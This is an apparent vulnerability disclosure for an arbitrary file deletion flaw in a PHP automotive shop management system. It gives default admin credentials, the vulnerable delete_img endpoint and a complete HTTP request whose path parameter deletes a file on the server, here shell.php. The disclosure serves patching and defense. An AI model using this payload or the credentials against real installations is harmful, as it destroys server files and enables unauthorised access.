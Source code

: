 # Automotive Shop Management System v1.0 by oretnom23 has Delete any file

BUG_Author: tpaer

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15312/automotive-shop-management-system-phpoop-free-source-code.html

Vulnerability File: /asms/classes/Master.php?f=delete_img

Vulnerability location: /asms/classes/Master.php?f=delete_img, path

Payload:

```sql
POST /asms/classes/Master.php?f=delete_img HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/asms/admin/?page=system_info
Content-Length: 64
Cookie: __utma=78021076.1353699714.1665838696.1665838696.1665838696.1; __utmz=78021076.1665838696.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); _gauges_unique_month=1; _gauges_unique_year=1; _gauges_unique=1; PHPSESSID=ocll92n082l6eedlf8jugi8i1r
Connection: close

path=C%3A%2Fxampp%2Fhtdocs%2Fasms%2Fuploads%2Fbanner%2Fshell.php
```

Here we delete the shel.php file in the  directory

Currently, when we do not send a request to delete the shell.php file, the shell.php file is still in the  directory of the website


![image](https://user-images.githubusercontent.com/54017627/197347413-170d90a2-7e8a-4b0b-ba00-5619c4b9e9da.png)

The response package shows that the deletion was successful. Let's go to the directory to see if the shell.php file still exists.
![image](https://user-images.githubusercontent.com/54017627/197347489-7c8f8425-ab6f-4b23-b259-e85c6a0931f3.png)

By this time, shell.php has been deleted.

![image](https://user-images.githubusercontent.com/54017627/197347526-65cda818-05ff-4223-bc73-1f247b636d44.png)

